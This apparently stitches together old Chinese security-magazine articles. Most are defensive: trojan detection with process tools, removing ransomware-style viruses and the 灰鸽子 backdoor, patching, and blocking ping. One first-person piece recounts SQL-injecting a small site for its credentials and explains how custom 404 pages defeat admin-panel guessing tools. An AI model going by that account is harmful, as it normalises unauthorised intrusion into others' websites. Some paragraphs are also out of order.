> 在“服务管理”“内核驱动”及其它安全设置项中，也同样可以利用“安全博客”的标记来轻松识别出隐藏的木马服务及驱动。

### 三、不明进程，“搜索”来解决

前面所说的木马是属于比较低能的，这类木马的特点是企图鱼目混珠，但是正由于木马进程特意伪装成系统进程，反而成了“此地无银三百两”——正常的程序进程谁没事儿会弄得跟系统进程差不多呢？肯定有鬼！但是有一些木马则比较“朴实”，这些木马进程名字看起来很普通，不像伪装的，反而与一些不知名的软件进程混在一起，弄不清楚到底谁是木马，谁是软件进程。对于此类木马，我们可以通过网络来搜索相关的进程信息，以此来检测进程的安全性。

#### 1. 利用百度与 Google 搜索进程的安全性

例如在我的电脑上使用“智能杀毒伴侣”检测出一个标记为“[UN]”的进程“kvsrvxp.exe”，这个进程非常特殊，没有进程描述，也没有文件路径信息（图8），很难分辨出这个进程到底是不是木马进程。此时我们就可到百度或 Google 上搜索一下。右键点击此进程，在弹出菜单中选择“用百度搜索”，就可以自动连接百度搜索相关的进程信息了。从搜索结果中可以看出这个进程其实是江民的病毒监控进程。

#### 2. 专业的进程库网站

在 Procexp 中也提供了进程搜索功能，我们可以直接手工到百度或 Google 上进行搜索。不过百度与 Google 提供的进程信息不专业，网络上有专业的进程信息库网站，收集了各种进程信息，可供查询检索。“进程知识库”（http://www.dofile.com/）收集了 4482 条进程信息，非常全面。


还有一个非常好的进程信息网站“进程信息库”（http://www.processlib.net/index.html），这个网站的进程信息更为丰富，有一万四千多条进程信息。打开页面后，在中间的搜索框中输入进程名，点击“FIND”按钮，即可检索出相关的进程信息（图10）。

> **小提示**
>
> 在上面介绍的两个网站中，也同时提供了 DLL 文件信息检测功能。我们在查可疑的 DLL 文件时，也可以利用这两个网站进行检索。


### 四、“端口”分析，揪出黑进程中的木马

有一些进程在网络上是检索不到相关信息的，当然也就不能一下子判断出这个进程是否为木马了。碰到这种情况，可以通过检测进程是否开启了端口来确定进程的安全性。木马进入系统后，要通过网络与控制端进行联系并为黑客所控制，就必定要打开系统中的某个端口。如果某个进程打开了系统中的某个端口，而这个进程又是未知程序所运行的，就可以进一步确定这个进程是木马进程了。

#### 1. 检测远程 IP 是否为网站

查看进程端口的工具有很多，我们以前面介绍过的 Procexp 为例。使用 Procexp 在进程列表中选择可疑进程，点击右键，在弹出菜单中选择“Properties”，或者直接双击可疑进程名，打开进程属性对话框。在属性对话框中选择“TCP/IP”选项，在这里可以看到程序访问网络的情况（图11）。我们发现有一个可疑进程“explore.exe”连接了远程 IP 地址和端口“202.198.155.203:80”。既然是连接的 80 端口，如果该 IP 地址不是网站的话，那么就必定有问题了。在 IE 中直接输入 IP 地址，结果提示无法打开网页，由此可以确定此进程为木马进程（大多数情况都如此，但也不排除有使用网站服务器当作肉鸡来控制别人的家伙）。

#### 2. 查询远程 IP 域名及物理地址

如果连接的远程主机并非 80 端口的话，那么需要确定所连接主机的 IP 地址所对应的域名以及所在的物理地址。例如远程连接的 IP 地址及端口为“125.231.124.83:5060”，首先打开 CMD 命令提示符窗口，执行命令 `ping -a 125.231.124.83`（图12）。命令执行后，可以查询到远程 IP 所对应的域名，由域名可以判断出该 IP 地址是否可靠，从而可以判断出此连接是否为黑客的远程木马连接。


从图中我们可以看到远程 IP 地址对应的域名非常奇怪，于是可以继续查询远程 IP 的物理位置。在“带心显 IP”之类的网站上查询一下就可以了。例如在上面的智能杀毒伴侣中，我们也可以很清楚地看到当前的网络连接端口，以及远程 IP 及对应的物理地址（图13）。

进程连接了远程 IP 的 5060 端口，系统进程是不可能打开 5060 之类奇怪端口的。远程 IP 地址为“125.231.124.83”，这是一个很奇怪的 IP 地址，该地址上没有发布任何网站，对应的物理地址为台湾，目前系统中好像没有服务器在台湾的软件，该连接不像是某个程序所需要连接的，因此可以断定这是一个木马进程，而该 IP 地址则很可能就是黑客的 IP 地址。

#### 3. 总结

升级，一般也都是连接服务器的80端口。通过查询这些端口的远程IP地址对应的域名，可以知道是否为当前可见的网页连接。有一些DLL注入类的木马，也是利用80端口进行远程控制的，这类木马往往注入到 iexplore.exe 和 explorer.exe 进程中。如果我们检查出系统中这两个进程连接了远程一个未知的IP地址，而这个IP地址又不是网站服务器，那么可以肯定为木马进程。

## 五、“模块”现真身，检测注入类木马

有时发现一些可疑进程，虽然进程本身没有问题，但是却打开奇怪的端口，建立远程连接。比如 IE 进程连接了未知的远程 IP 的 80 端口，通常很可能是中了注入类木马。如何分辨进程是正常还是被木马注入了呢？这时可分析进程中的模块信息，一般只需要看几个关键的进程，如 svchost.exe、lsass.exe、explorer.exe、iexplore.exe 等。

### 1. 检测DLL文件公司信息

一般来说，进程所加载的模块如果是安全的，它的公司信息应该为微软“Microsoft Corporation”。运行 Procexp，点击工具栏上的“View DLLs”按钮，就可以在下部窗口中显示选中进程所调用的 DLL 文件了。列出 DLL 后，点一下“Company Name”栏进行排序，可以看到大部分都标识为“Microsoft Corporation”，但是如果文件名为“****.dll”，而 Company Name 栏是其它公司，或者留空的，那么就可以考虑这个 DLL 文件是否感染了（图14）。

> **小提示：** 在“高能杀毒伴侣”中选择某个进程，在下面的进程信息中可查看所有加载的模块；在“安全”栏中显示为“UN”的，就是可疑模块。

### 2. 通过版本信息来判断

如果进程有非法的外部连接，又出现了可疑的 DLL 加载，通过综合判断就可以初步判断此进程很可疑，可以进一步分析。右键点击该进程或 DLL 文件，打开属性对话框，可查看对应文件的版本信息。一般来说，正常的系统文件和 DLL 文件，在属性对话框中都可以看到“版本”选项，在其中可看到版本、公司、产品名称等信息。如果是正常程序和软件调用的模块，可通过这些信息轻易分辨出来，如图15所示；可疑 DLL 文件常常没有“版本”选项（图16）。

### 3. 微软数字签名及“时间”检测

也有一些木马对文件自身进行了伪装，可以添加微软公司的版本信息，如“Microsoft Corporation”等，这类木马一般很难分辨。但是微软提供了一个数字签名功能，可以利用这个功能来分辨文件的安全性。在 Procexp 中右键点击可疑进程，选择“Properties”打开属性对话框，选择“Image”选项，在页面中的“Image file”中可以看到进程的描述信息。在页面中的“Verify”处会显示数字签名验证信息，若是微软的程序会提示“(Verified) Microsoft Windows Publisher”，不是的话将显示“(not Verified)”（图17）。


对于 DLL 文件，在 Procexp 中无法直接进行数字签名检测，我们可以通过文件的“创建时间”和“修改时间”来判断。首先要知道正常的系统 DLL 文件的“创建时间”和“修改时间”，可在“Windows\system32”文件夹中多打开几个文件查看一下属性就可以确定了。

在我的系统上，系统文件创建和修改时间都是2004年11月4日，但是竟然在系统文件夹下检测到一个可疑的 DLL 文件，创建时间是2006年2月3日，而该文件又没有版本信息，不知是哪个程序调用的，因此基本上可以确定此文件为木马 DLL 文件。

## 六、检测显示隐藏的木马进程

有的木马本身具备自我隐藏进程功能，也就是所谓的 Rootkit 功能，从普通的进程管理器中是看不到木马进程的。对于此类可疑进程，可以通过 IceSword 之类的进程管理器检测。


要判断出该进程是否为木马，我们可以使用一款叫作“微点主动防御软件”的工具。

> ### 小提示：
> “微点主动防御软件”最大的特点是采用了主动防御技术，真正实现了防范未知的木马（图19）。所谓的“主动防御技术”，就是通过一款程序的行为判断其是否为木马或病毒。

运行微点主动防御软件，在左侧功能栏中展开“当前进程”，在其中找到可疑进程。右键点击该进程，选择“程序信息”，打开进程属性对话框。在对话框中可以看到该进程是何时启动的，并可以看到进程运行时在 Windows 系统目录下生成了几个 DLL 文件，尤其还修改了注册表内容，在自启动项目中添加了许多键值（图20）。除了安装程序外，普通的进程一般是不会修改注册表，并且悄悄地在系统目录中安装几个不知名文件的。由此可以判定该进程一定是木马。

运行 IceSword 后，点击左边“查看”栏中的“进程”项，在右边主窗口的进程列表中就可以看到当前系统中所有可见和隐藏的进程了，隐藏的进程以红色醒目标记（图18）。如果有隐藏进程名为“iexplore.exe”或“explorer.exe”“svchost.exe”之类的，肯定就是木马了。

## 七、行为检测，分析木马

对于一些实在难以分析检测的可疑进程，可以通过进程行为进行判断，通过该进程是否在系统目录下生成了文件、是否修改了注册表、是否打开远程连接等，综合分析判断。

## 让后台程序工具“变复活”


SQL 注入漏洞是目前很多网站都存在的漏洞，几乎每天都有不少小菜拿着 NBSI、HDSI、DOMAIN 和啊D等注入工具在网上不停地扫描网站。这天，我偶尔看到一小站也存在 SQL 注入漏洞，抄起家伙，很快就得到了数据库的用户名和密码。习惯性地扫描了一下后台，看着第一个返回的信息是200我好高兴，这么快就猜到后台了，爽啊！可是后面的返回结果却一下子让我傻眼了，居然全部都是200（图1）。

怎么会这样呢？我换了好几个工具也都是这种情况。我从中找了一个地址访问了一下，是一个不存在的地址，返回的是网站自定义的404错误页面。就算是自定义的404信息，那也应该是报404错误的，怎么会报200呢？记得中国X黑客小组使用的是自定义的404页面（图2）。拿他们的网站试了试，结果还是报404的错误（图3）。

到底是哪里存在的问题呢？我很想把这个问题搞明白，先 telnet 了一下对方的80端口，发现是 IIS5.0（图4），也就是说对方使用的是 Windows 2000 系统。幸好不是 UNIX/Linux 系统，要不然为了搞明白还得架个 UNIX/Linux 环境，那就麻烦了。


图2

> **小知识：关于404和200**
>
> 我们上边提到的404和200指的是 HTTP 的状态代码。在 SQL 注入工具中最常见到的有200、302、403、404和500，这些状态代码分别是指：
>
> - 200：成功，此状态码表示 IIS 已成功处理请求。
> - 302：网址临时性重定向。
> - 403：禁止访问。IIS 定义了许多不同的403错误，具体介绍可以自己搜索一下。
> - 404：未找到。这个也有几个不同的404错误，大多数原因是访问的文件已经被删除。
> - 500：内部服务器错误。很多时候是因为代码没写好的原因。

常用的 SQL 注入工具是怎样来扫描后台的呢？如果是手工检测的话，我们当然是一个个地输入可能存在的后台地址来进行猜解，例如猜解 `http://www.woidiy.com` 的后台，可以在后面加一个 `admin.asp`，当返回是一个存在的页面时，恭喜你，你猜到后台了。如果是不存在的页面时，就会返回一个404的错误。注入工具也是进行一个个地输入可能存在的后台地址来进行猜解，不过工具不会看你挨个页面的返回，它采用的是看返回的 HTTP 状态代码来进行判断。好了，小菜必须要知道的常识已经讲完了，本地环境也架好了，来看看为什么一个自定义的404会报200呢？

在 IIS 中打开站点属性，打开自定义错误信息，找到404（图5）。


图3

```
HTTP/1.1 400 Bad Request
Server: Microsoft-IIS/5.0
Date: Fri, 19 Jan 2007 ... GMT
Content-Type: text/html
Content-Length: 87

<html><head><title>Error</title></head><body>The parameter is incorrect.</body></html>
```

图4

```
HTTP/1.1 404 Object Not Found
```

图6


图7


图5

从图中可以看到，错误映射属性有三个：一个是默认值，一个是“文件”，一个是“URL”。“默认值”就是在网页上显示一个大的“HTTP/1.1 404 Object Not Found”（图6）。“文件”是 IIS 原本使用的，也就是我们在很多地方看到的（图7）。对于这个页面我们可以进行更改：制作好一个网页，然后把文件路径指定到你做好的网页。还有一个就是 URL，URL 采用的是相对路径的方法，在你的站点下建立一个网页，然后把404指向这个网页的相对路径。看到了以上三种方式定义404错误，除去默认的，可以更改404页面的有“文件”和“URL”。我在站点下新建了一个网页 404.htm，先来使用“文件”的方式试一下，依然还是报404错误，那看来就是在 URL 上面了。立马改 URL 的方式测试，结果马上就出来了，就是 URL 的方式（图8）。


也许会有人要说我使用的是虚拟主机，管理员不在我这儿，我不能更改。别担心，其实不去更改 IIS 也行，只要虚拟主机支持自定义404错误页就可以。我冒着被人强K的风险，试过几个虚拟主机的自定义404页面，都是采用改 URL 的方式来定义404（石头：这也是个挂马的好方法）。对于这样的网站，就算得到了用户名和密码，要找后台登录的话，就不能使用工具了，只能使用手工方式一个个去猜解。那么为什么404会返回一个200的状态代码呢？这是因为返回404是因为页面不存在，而现在却指定了一个页面，这个页面是存在的，这样返回的就会是200状态代码了。

## 拿住网站最后的安全底线

菜鸟们都应该知道，目前入侵网站最常使用的方法就是脚本注入。当然防止网站被入侵的方法也有很多，本文要介绍给大家的就是如何做好网站后台的防护。我们先在网上架设好自己的论坛，就以动网为例吧，如图1。如果论坛后台设置得不隐蔽，或者干脆使用的就是动网默认的 admin_login.asp，那肯定是非常危险的，如图2。接下来，我们就要使用“后台狗狗”这个小工具了！

打开后台狗狗后就会看到很显眼的红字“请确保在网络连接正常的情况下使用，本程序未加入报错系统”，如图3。也就是说程序在运行过程中不会有任何错误提示。所以，一定要保证网络正常。点击中间的“安装/卸载”按钮，然后会看到“安装前请将程序单独放在一个空文件夹中”的提示，如图4。


我们把后台狗狗存放到一个叫 GG 的文件夹中，再次打开它，然后把资料填写完整。比如我使用的 FTP 地址就是 60.172.**.**，账号是 Gicy，密码是 GicyVIP，后台是 wwwroot/bbs（后台要有单独的目录，不然程序会出错）。注意，如果使用的是网络空间，后台目录一定要填准确。然后要填的就是后台首页文件，动网的后台首页文件是 admin_login.asp。全部填写完毕后点击“安装”按钮，就会弹出一个提示，要求用户把一个假的后台首页存放到程序目录下并改名（图5）。提示“安装完毕”后就可以了。


点击“加密”。现在我们打开后台看看，傻了吧！变成我们设置的假后台了，如图6。现在再点下“解密”，再打开看看，后台就会恢复正常了，如图7。

其实这个小工具利用的就是 FTP：加密时把后台首页改名，然后上传假后台；而解密时删除假后台，再把真后台改回原名。

希望这个小工具对于大家能够有所帮助。

（本文所涉及到的后台狗狗已收录到光盘中）

## 和我一起学习“硬盘敲诈者”

“硬盘敲诈者”是一个病毒的名称，顾名思义，该病毒确实有勒索 RMB 的嫌疑。事实上也是如此，病毒除了对系统造成罕见的破坏外，还通过修改硬盘 FDT 表（小编注：FDT 表和 MBR、DBR、FAT 表等是整个硬盘最为重要的数据，FDT 表的作用是记录文件的主名、扩展名、日期、属性、起始簇号和长度等信息）隐藏了非 C 盘内所有的分区数据。病毒没有删除文件夹，可能是因为病毒作者没有能力修改 FAT 链的原因。当病毒运行后，我们会发现自己系统的开始菜单里没有了“关闭计算机”“运行”“搜索”等三个命令，还隐藏了微软在“开始”菜单上面的 logo，如图1。

孤单每一天

我们在登录系统后还会看到如图3所示的提示信息。病毒还会删除资源管理器中的文件夹选项，使用户无法查看隐藏文件，如图4。并且还修改 txt 文件的文件关联，这样，当我们打开文本文档时，打开的却是病毒程序。另外，病毒还会导致 CPU 占用率居高不下。


在系统启动时会先加载病毒程序，提示“发现您的硬盘内曾使用过盗版的我公司软件，所以将您的文件移到锁定的扇区；若要解锁该文件释放，请电邮 liugongs19670519@yahoo.com.cn 购买相应的软件”，如图2。

前段时间我又得到了这个病毒变种的最新样本并进行了分析，分析报告已收录于光盘内，感兴趣的读者朋友可以参阅一下。下面我们主要介绍一下在感染这个病毒后如何应急恢复系统。


### 一、恢复丢失的数据

记得上期“俊瓜黑客”栏目中有篇关于数据恢复的文章，大家可以参照那篇文章介绍的方法使用 EasyRecovery 来恢复数据，使用“找回误删的数据”这一项就可以了。但是安装的时候要注意，一定要安装在 C 盘（注：病毒没有使用环境变量来获取系统分区，所以其它分区如果安装有操作系统的话，也会被删除文件。如果系统安装在非 C 的分区，可以使用深山红叶·Windows PE 中的数据恢复程序从光盘引导恢复丢失数据），防止硬盘数据区（DATA）上面的某些扇区被覆盖。

为了更方便地使用 EasyRecovery，我找到了一款绿色版的 EasyRecovery 提供给大家，已经做成了 rar 自解压程序，不用安装直接解压后就可以使用了。

使用 EasyRecovery 将所有的数据找到，如图5，然后将数据导出到其它目标分区就可以了（具体方法详见《找回丢失的重要数据》一文）。如果硬盘上每个分区都有重要的数据，就必须挂上另一硬盘进行数据导出。由于病毒是 autorun 病毒，所以挂上另一硬盘后请勿打开新硬盘上的分区，以免感染病毒。EASYRECOVERYPRO 也支持将数据恢复到 FTP。丢失的文件和丢失的文件目录都可以成功恢复，如图6，依次使用 EasyRecovery 恢复所有分区的数据就可以了。

首先结束掉病毒进程以及清除非 C 盘外每个分区所保护的病毒程序，可以使用 procexp（Process Explorer）完成。对于中毒系统，重启后会发现有两个“winlogon.exe”进程，分别是真正的 winlogon.exe 和伪装进程（如图7）。系统自带任务管理器不直观，且部分版本没有“映像路径”列，不便判断；另外病毒还会覆盖 XP 的任务管理器。


### 二、彻底歼灭病毒

病毒进程结束掉后，删除非 C 盘内的 svch0st.exe、autorun.inf 文件。由于病毒是隐藏文件，且会破坏“文件夹选项”，可借助 CMD 删除。若“开始→运行”或任务管理器“新任务”被屏蔽，可在 procexp 中执行 cmd，然后输入命令清除病毒文件。

结束病毒进程很简单：在 winlogon.exe 进程上点右键，选择“终止进程”即可（如图8）。


```bash
cd \
d:
dir /ash
attrib -a -r -s -h *.*
del ...
ftype txtfile=%systemroot%\system32\notepad.exe
```

使用该方法删除所有分区的病毒程序，并修复 txt 文件关联。接着可停止并禁用病毒服务（针对 XP 系统）。

```bash
sc stop wins
sc config wins start= disabled
```

图9

图10

至此，所有的命令步骤完成。下面直接删除 `Documents and Settings\All Users\Application Data\Microsoft` 目录下的病毒文件……并告诉大家如何来修改还原键值。

> **病毒删除文件夹选项所涉及注册表项**  
> `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\HIDDEN\SHOWALL` ……

> **病毒增加警告提示框所涉及的注册表键值**  
> `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\system`
> - legalnoticecaption  
> - legalnoticetext

> **病毒修改默认的屏幕保护程序和屏保启动时间所涉及的注册表键值**

**涉及的注册表键值**  
`HKEY_USERS\S-1-5-21-...\Control Panel\Desktop`
- `SCRNSAVE.EXE = c:\windows\system32\...`
- `ScreenSaveTimeOut = 60`

**屏保开始菜单中几个命令所涉及的注册表键值**  
`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\Explorer`
- `NoClose (DWORD)`
- `NoFind (DWORD)`
- `NoRun (DWORD)`
- `StartMenuLogOff (DWORD)`
- `NoLogOff (DWORD)`

**病毒启动所涉及的注册表键值**  
`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
- `svchost.exe = C:\Documents and Settings\All Users\Application Data\Microsoft\winlogon.exe`

**病毒服务所涉及的注册表项**  
`HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\WINS`  
`HKEY_LOCAL_MACHINE\SYSTEM\ControlSet002\Services\WINS`

其实病毒程序删除不删除都无所谓，但为了清理垃圾、提高系统启动速度，还是删除为好……当上述键值全部修改完毕后，重启电脑……

## 愚人节的“礼物”

记得愚人节的这天下午，我回到宿舍打开电脑，却突然提示说密码不对……我从慌乱的心情中静下来仔细地分析了一下：

- 1. 我的电脑是单机，没有连上网络，因此应该不会受木马的远程控制；
- 2. 我从来不把密码说给别人听，因此外人不会知道我的密码；
- 3. 昨天电脑还好好的，今天我玩了一天的游戏。

基本上没有离开过我的电脑……期间只去了一趟 WC，不可能这么快被人破解密码……这时看到了我的同桌（舍友）在暗笑……

## 安全第一

怎么可能，我都重新输下好几遍了。我心想一定是这小子搞的鬼，于是就将计就计假装说要向他借张启动盘重新安装系统。可能那小子也良心发现不能把玩笑玩得过火了，于是他就告诉了我一个密码，使用那个密码，我果然顺利地进入了系统……

他说如何改掉我的密码的呢？我正愤不得其解，后来在苦苦的追问下，他才告诉我说当以系统管理员的身份登录进系统后，在“我的电脑”上点鼠标右键，选择“管理”，然后选择“本地用户和组”下的“用户”……

图1

原来那小子就是这样改掉我的密码。如何解决这个问题呢？我在网上找了好几天都没有找到妥善的解决方法，后来在使用“超级兔子”的时候，发现可以使用其中的“魔法设置”→“系统”→“系统选项”来禁止我的电脑右键菜单中的管理项目……

图2

但这个却只是治标不治本的方法，因为我们仍然可以从另外几处地方打开“本地用户和组”，比如在“开始”→“运行”栏中输入“MMC”来启动“控制台”，然后选择“文件”下的“添加/删除管理单元”（图3）……

在弹出的“添加独立管理单元”菜单中找到“本地用户和组”（图4），选中后，按下面的“添加”按钮，再在“选择目标机器”菜单中直接点击“完成”就会同样打开“本地用户和组”了。

图3

经过一番寻找，我在 `system32` 目录下找到了相关的程序 `compmgmt.msc`、`lusrmgr.msc` 和 `mmc.exe`……结果没有一个地方能够打开“本地用户和组”了，连 `gpedit.msc` 等和 MMC 相关的程序也都打不开了。

图4

虽然仍然可以按下 `Ctrl+Alt+Del` 后来更改密码，不过却需要回答旧密码……当我们需要使用 MMC 的话，再把 `mmc.exe` 改回 `MMC.exe` 就可以了。这就是治本的方法……

## 江湖中的灰鸽子是否“肥了”飞翔

最近，在黑客圈中鼎鼎大名的灰鸽子再次掀起波澜，导致金山公司等的集体围剿，口诛笔伐、法律诉讼，灰鸽子工作室不得不宣布暂停开发……

图1

## 一、官方“灰鸽子服务端卸载程序”

“灰鸽子服务端卸载程序”是由灰鸽子工作室开发的一款灰鸽子木马卸载程序……支持包括 VIP2005/2006/2007 及其它版本服务端程序的检测和卸载。

图2

图3

图4

（图2）。

点击界面中的“开始检测”按钮，就开始检测系统中是否中了灰鸽子了，检测到系统中有灰鸽子服务端和进程时，会自动结束进程并删除服务端进行清除（图3）。清除完毕后，会提示需要重启系统。

## 二、灰鸽子手工清除

官方的灰鸽子清除工具对付常用的灰鸽子服务端当然是很好用的，不过灰鸽子的流传实在是太广了，各种灰鸽子变种层出不穷，有的灰鸽子变种，即使使用官方的清除工具也可能无法检测清除。这时我们就只有用手工的方法进行清除了。

### 1. 灰鸽子分析

灰鸽子服务端程序默认名字为“G_Server.exe”，“G_Server.exe”运行后会在 Windows 目录下释放“G_Server.dll”和“G_Server_Hook.dll”文件。有些灰鸽子会多释放出一个名为“G_ServerKey.dll”的文件用来记录键盘操作。“G_Server.exe”文件将自己注册成服务，以启动“G_Server.dll”和“G_Server_Hook.dll”。“G_Server.dll”文件实现后门与控制端客户端进行通信；“G_Server_Hook.dll”则通过拦截 API 调用来隐藏木马文件。因此，中了灰鸽子木马后，找不到病毒文件，也看不到病毒注册的服务项，而且由于灰鸽子服务端文件的设置不同，“G_Server_Hook.dll”有可能注入到“Explorer.exe”进程，也可能是其它系统进程。

另外，木马服务端程序文件名“G_Server.exe”并不固定，是可以自定义设置的，例如服务端文件名为“A.exe”时，生成的几个木马文件相应的就是“A.exe”“A.dll”和“A_Hook.dll”。

### 2. 利用 Syscheck 检测灰鸽子

由于灰鸽子拦截了 API 调用，在正常模式下服务端程序文件和它注册的服务项均被隐藏；此外，灰鸽子服务端的文件名也是可以自定义的，给手工检测带来了一定的困难。但灰鸽子的检测仍然有规律：无论服务端文件名是什么，一般都会在操作系统目录下生成一个以“-hook.dll”结尾的文件；当然，各种变种灰鸽子也可能会对 DLL 文件进行改名。我一般是使用 Syscheck 检测各种灰鸽子或其它木马的。

图5

Syscheck 与冰刃一样，同样是国产的安全工具，它集合了冰刃与另一款安全软件 SREng 的优点，具有强大的系统分析检测功能，可以轻松地检测出木马并进行系统修复，而且能够有效地清除 Rootkit 木马病毒。Syscheck 的强大分析检测功能，是缘于 Syscheck 采用了特殊的技术获取系统底层控制权，因此一些杀毒软件，如 Drweb 之类的，可能会报警提示，这是误报，不用担心。

运行 Syscheck，点击界面中的“进程管理”按钮，显示当前进程中的所有进程，在进程列表中可以清楚地看到可疑的进程。

Syscheck 采用三种颜色区分进程：其中黑色显示的是正常的系统进程，这类进程是绝对安全的，不用管它们；红色的进程是第三方程序进程，里面有可能显示了隐藏的木马进程，尤其需要好好地识别。紫色显示的也是系统进程，但是这些进程中有第三方的程序加载了 DLL 文件或其它的驱动，其中很可能就有木马与病毒作了手脚。选择要检查的进程，勾选下方的“模块简洁显示”项后，Syscheck 会自动过滤隐藏正常的系统 DLL 模块文件，只以红色显示第三方模块 DLL 文件，因此可以很轻松地揪出隐藏的 DLL 木马文件。

例如，在我的系统中，`alg.exe`、`lsass.exe`、`svchost.exe`、`csrss.exe` 等多个进程显示为紫色，点击进程后，在其中都发现了一个名为“G_Server_Hook.dll”的模块文件。很显然，这就是灰鸽子木马作的手脚了（图4）。

> **提示**  
> 例如，在“查看的系统进程”中加载了第三方的 DLL 文件，可在弹出菜单中选择“Google 搜索”命令，自动调用 Google 搜索该文件信息，辨别是否为木马。

### 3. 清除灰鸽子木马服务及文件

找到灰鸽子木马的进程及文件后，可以重启系统进入安全模式，打开注册表编辑器，利用搜索功能，在“查找目标”输入刚才搜索出来的木马服务端文件名，确定后即可找到灰鸽子的服务项，将其删除即可。另在安全模式下删除对应的 exe 与 DLL 文件，重新启动后即可完成清除。

但在有些情况下，灰鸽子加载得很隐蔽，可能无法直接找到服务项和文件进行删除。这时可利用 Syscheck 工具进行清除，在其“进程管理”中点击“快速净化”按钮，自动清除可疑项目并修复系统。

另外，灰鸽子可能会对注册表项目进行隐藏，无法直接查找到相应服务项目。此时可利用 Syscheck 的“服务管理”功能，仅显示第三方服务并查看厂商标识，通过右键菜单可停止/禁用服务，或选择“删除服务及文件”进行彻底清除。

> **小技巧：建立“服务快照”，快速查杀灰鸽子**  
> Syscheck 有服务快照功能，可先对服务作快照，之后将服务与快照对比，快速发现新增可疑服务并加入信任列表或直接处理。

隐藏的灰鸽子木马文件，可用 Syscheck 的“文件浏览”页面内置资源管理器查看，能够发现通过 Rootkit 技术隐藏的文件或文件夹；可直接删除，也可选择“延时删除（重启后生效）”（图7）。

## 系统漏洞修补三则

众所周知，目前绝大多数木马和病毒都是通过系统漏洞（特别是 IE 漏洞）入侵。即便安装了杀毒软件和防火墙，如果系统漏洞没有及时修补，恶意程序仍可能轻松入侵电脑。因此经常修补系统漏洞是关键。

## 一、傻瓜式自动升级法

Windows 系统提供自动更新功能。可在“我的电脑→属性→自动更新”中选择“自动（推荐）”，并设置更新时间，系统将按设定时间自动下载并安装补丁（图1）。

> **小提示**  
> 从网上下载的升级补丁默认会保存在 `C:\Windows\SoftwareDistribution\Download` 目录下，重装系统前可先备份，避免重复下载。

## 二、借助第三方工具，安装系统升级补丁

天有不测风云，人有旦夕祸福。如果有一天你的系统出现了莫名其妙的问题，导致系统无法从网上自动安装补丁，那么我们不妨利用 FlashGet 工具，帮助自己批量下载升级补丁。为了能够发现系统当前的隐患，可以借助瑞星系统安全漏洞扫描工具来查找出系统因为没有安装补丁所存在的漏洞。运行“瑞星系统安全漏洞”客户端程序，单击下方的“开始扫描”标签，稍等片刻后，编辑区就会列出系统所存在的安全漏洞的具体情况了（图2）。如果要想了解漏洞的详细信息，可以点击“查看详细”标签，进入安全漏洞详细信息页面。将所提供的补丁下载地址记下来，然后将它们录入到类似快车一类的下载工具中，将这些补丁文件批量下载到本地后，运行“Windows 补丁安装工具”，将下载到本机的补丁文件全部导入到其界面左侧窗口，然后单击“→”按钮，把它们都搬移到右侧“你添加的补丁列表”栏内，单击“安装”就可以自动执行批量安装补丁的操作了。

## 三、将补丁集成到安装光盘

目前在电子市场上销售的盗版系统安装光盘基本上是一张 5 元左右，虽然这些安装光盘效果总体还算不错，但里面一般都不会集成补丁（虽然也有一些集成了补丁，但是却实现不了补丁的实时更新），因此我们可以通过“Windows Unattended CD Creator”制作工具将升级补丁集成到系统安装文件中，然后可以自己重新刻录一张系统安装光盘。

> **小提示**  
> 在使用 Windows Unattended CD Creator 之前，还需要 Microsoft .NET Framework 的支持（可从相关网站下载），否则将无法使用该制作工具。

- 1. 进入微软官方站点，将其所提供的所有补丁文件下载到本地计算机内，然后将准备好的系统安装光盘插入到光盘驱动器内。  
- 2. 安装并运行“Wucc”客户端程序，在弹出的操作界面（图3）中单击“Select”按钮，然后选择光驱；浏览程序会自动读取光盘内容。回到软件操作页面，点击“Select target directory”按钮，选择任意浏览目录，将系统盘里的内容拷贝过去。  
- 3. 操作完毕后，将默认选择的“Source-CD”标签切换至“Unattended”标签，从中设置自动安装的应答文件，比如在 Product Key 栏输入序列号，在 Administrator’s 内输入管理员信息。另外 Driver 标签和 Software 标签，还能够集成驱动和应用程序。  
- 4. 选择上方的“Hotfixes”标签，在其页面下单击“Select”按钮，从中找到下载的补丁文件。此时可能会弹出补丁名过长的提示信息，在窗口内输入简短的补丁名称进行更改，然后单击“Done”按钮，使其更名后显示在“WUCC 窗口”内。然后点击“Add”按钮，将补丁文件添加进来（图4）。然后循环操作第四步，直到补丁文件全部添加进来为止。然后利用 Up 和 Down 按钮，排列补丁安装的顺序。  
- 5. 切换到“Down”标签，勾选编辑区内自己不需要的组件，然后单击“Delete”按钮，将其删除。最后点击右下角的“Create ISO-image”按钮，将制作的文件保存，并且生成镜像后，启动 NERO 选择好刻录机，点击“光盘镜像”，选择刚才保存的制作文件，开始刻录即可。这样在以后安装系统时，同时也会将补丁安装到系统内，从而免去了临时“抱佛脚”的下载之苦。

> **小提示**  
> 要想不弹出这类提示，我们可以在事先批量下载完成后，就将其文件名全部更改为 8 位以内的字符，然后再做类似操作。

图3

图4

## 将 Ping 探测拒之门外

踏雪无痕 / Ande

Ping 命令应该算是大家最熟悉的命令之一，也是最常用到的命令之一。我们都知道，在进行网络攻击或入侵前，一般都要进行踩点，也就是收集要入侵的目标主机的敏感信息，然后再根据收集到的信息来确定下一步要如何入侵。而踩点过程中经常都会用到 Ping 命令，以测试自己与目标电脑是否能够连通，或是利用 ping 命令得到对方的 IP 地址。

另外，有许多端口扫描工具也是依赖 ping 的结果来工作的。可以说 Ping 是最简单有效的探测命令了，因此禁止系统对 Ping 请求做出响应，对于系统的安全是有很大好处的。那么，要如何才能禁止系统对 Ping 请求做出响应呢？方法有许多。在 Linux 系统中设置比较简单，可以使用以下命令来达到禁止 Ping 响应的目的。

```bash
echo 1 >/proc/sys/net/ipv4/icmp_echo_ignore_all
```

把这个命令添加到 `/etc/rc.d/rc.local` 文件中，使得系统每次重新启动，这个设置都会自动生效。若要恢复对 Ping 的响应，则可以使用如下命令：

```bash
echo 0 >/proc/sys/net/ipv4/icmp_echo_ignore_all
```

而在 Windows 2000/XP/2003 系统中，可以通过设置 IP 安全策略来禁止外部的 Ping 请求包，来达到禁止 Ping 响应的目的。

### 1. 创建 IP 安全策略

